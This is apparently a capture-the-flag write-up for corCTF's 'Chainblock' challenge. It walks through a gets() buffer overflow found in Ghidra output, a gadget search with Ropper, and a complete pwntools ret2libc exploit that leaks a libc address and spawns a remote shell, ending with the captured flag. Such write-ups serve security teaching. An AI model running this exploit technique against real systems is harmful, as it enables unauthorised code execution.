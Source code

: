 # Chainblock
```
I made a chain of blocks!
```

## Challenge
> TL;DR: Buffer overflow and then perform ret2libc. Spray 256 bytes of random characters (array has a size of 256 bytes). Leak the puts@got address. Re runs the `main()` function. Calculate the base libc address and buffer overflow again to spawn a shell via `system("/bin/sh")`.

Running the program:
```bash
$ ./chainblock 
-snip-
Welcome to Chainblock, the world's most advanced chain of blocks.

Chainblock is a unique company that combines cutting edge cloud
technologies with high tech AI powered machine learning models
to create a unique chain of blocks that learns by itself!

Chainblock is also a highly secure platform that is unhackable by design.
We use advanced technologies like NX bits and anti-hacking machine learning models
to ensure that your money is safe and will always be safe!

----------------------------------------------------------------------------------

For security reasons we require that you verify your identity.
Please enter your name: 
```

Ghidra's decompiled `verify()` function
```c
int verify(EVP_PKEY_CTX *ctx,uchar *sig,size_t siglen,uchar *tbs,size_t tbslen)

{
  int iVar1;
  char local_108 [256];
  
  printf("Please enter your name: ");
  gets(local_108);
  iVar1 = strcmp(local_108,name);
  if (iVar1 == 0) {
    printf("Hi %s!\n",name);
    iVar1 = printf("Your balance is %d chainblocks!\n",(ulong)balance);
  }
  else {
    iVar1 = puts("KYC failed, wrong identity!");
  }
  return iVar1;
}
```




Clearly, `gets(local_108)` is vulnerable to buffer overflow. Since there is no function that can spawn a shell, we need to perform ret2libc.

First, I try to find gadgets that I need to chain my ROP
```bash
# find ret
$ python3 Ropper.py -f ../chainblock/chainblock --search "ret"
-snip-
0x000000000040101a: ret; 

# find pop rdi; ret                                                                      
$ python3 Ropper.py -f ../chainblock/chainblock --search "pop rdi"
-snip-
0x0000000000401493: pop rdi; ret; 
```

Once I had gotten the address of gadgets, I can perform ROP

Idea of exploit: Spray 256 bytes of random characters (array has a size of 256 bytes). Leak the puts@got address. Re runs the `main()` function. Calculate the base libc address and buffer overflow again to spawn a shell via `system("/bin/sh")`.

POC:
```python
from pwn import *

binary = ELF('./chainblock')
ld = ELF('./ld-linux-x86-64.so.2')
libc = ELF('./libc.so.6')

r = remote('pwn.be.ax', 5000)
#r = process('./chainblock')
r.recvuntil(b'name: ')

pop_rdi = p64(0x401493)
puts_plt = p64(binary.plt['puts'])
puts_got = p64(binary.got['puts'])
main_func = p64(binary.symbols['main'])

payload = b"A" * 256
payload += p64(0) # stored rbp
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main_func

r.clean()
r.sendline(payload)

r.readline() # remove fail msg
puts_libc = u64(r.readline().strip().ljust(8, b'\x00'))
print(hex(puts_libc))

puts_offset = libc.symbols['puts']
libc.address = puts_libc - puts_offset

system_libc = p64(libc.symbols['system'])
sh_string = p64(libc.search(b'/bin/sh').__next__())
ret = p64(0x40101a)

payload = b"A" * 256
payload += p64(0) # stored rbp
payload += ret # fix misalignment
payload += pop_rdi
payload += sh_string
payload += system_libc
r.sendline(payload)


r.interactive()
```

Output of the script:
```bash
$ python3 solve.py
-snip-
[+] Opening connection to pwn.be.ax on port 5000: Done
0x7f6d6e1389d0
[*] Switching to interactive mode
      ___           ___           ___                       ___     
     /\  \         /\__\         /\  \          ___        /\__\    
    /::\  \       /:/  /        /::\  \        /\  \      /::|  |   
   /:/\:\  \     /:/__/        /:/\:\  \       \:\  \    /:|:|  |   
  /:/  \:\  \   /::\  \ ___   /::\~\:\  \      /::\__\  /:/|:|  |__ 
 /:/__/ \:\__\ /:/\:\  /\__\ /:/\:\ \:\__\  __/:/\/__/ /:/ |:| /\__\
 \:\  \  \/__/ \/__\:\/:/  / \/__\:\/:/  / /\/:/  /    \/__|:|/:/  /
  \:\  \            \::/  /       \::/  /  \::/__/         |:/:/  / 
   \:\  \           /:/  /        /:/  /    \:\__\         |::/  /  
    \:\__\         /:/  /        /:/  /      \/__/         /:/  /   
     \/__/         \/__/         \/__/                     \/__/    
      ___           ___       ___           ___           ___     
     /\  \         /\__\     /\  \         /\  \         /\__\    
    /::\  \       /:/  /    /::\  \       /::\  \       /:/  /    
   /:/\:\  \     /:/  /    /:/\:\  \     /:/\:\  \     /:/__/     
  /::\~\:\__\   /:/  /    /:/  \:\  \   /:/  \:\  \   /::\__\____ 
 /:/\:\ \:|__| /:/__/    /:/__/ \:\__\ /:/__/ \:\__\ /:/\:::::\__\
 \:\~\:\/:/  / \:\  \    \:\  \ /:/  / \:\  \  \/__/ \/_|:|~~|~   
  \:\ \::/  /   \:\  \    \:\  /:/  /   \:\  \          |:|  |    
   \:\/:/  /     \:\  \    \:\/:/  /     \:\  \         |:|  |    
    \::/__/       \:\__\    \::/  /       \:\__\        |:|  |    
     ~~            \/__/     \/__/         \/__/         \|__|    


----------------------------------------------------------------------------------

Welcome to Chainblock, the world's most advanced chain of blocks.

Chainblock is a unique company that combines cutting edge cloud
technologies with high tech AI powered machine learning models
to create a unique chain of blocks that learns by itself!

Chainblock is also a highly secure platform that is unhackable by design.
We use advanced technologies like NX bits and anti-hacking machine learning models
to ensure that your money is safe and will always be safe!

----------------------------------------------------------------------------------

For security reasons we require that you verify your identity.
Please enter your name: KYC failed, wrong identity!
$ ls
flag.txt
ld-linux-x86-64.so.2
libc.so.6
run
$ cat flag.txt
corctf{mi11i0nt0k3n_1s_n0t_a_scam_r1ght}$ 
```

Flag: `corctf{mi11i0nt0k3n_1s_n0t_a_scam_r1ght}`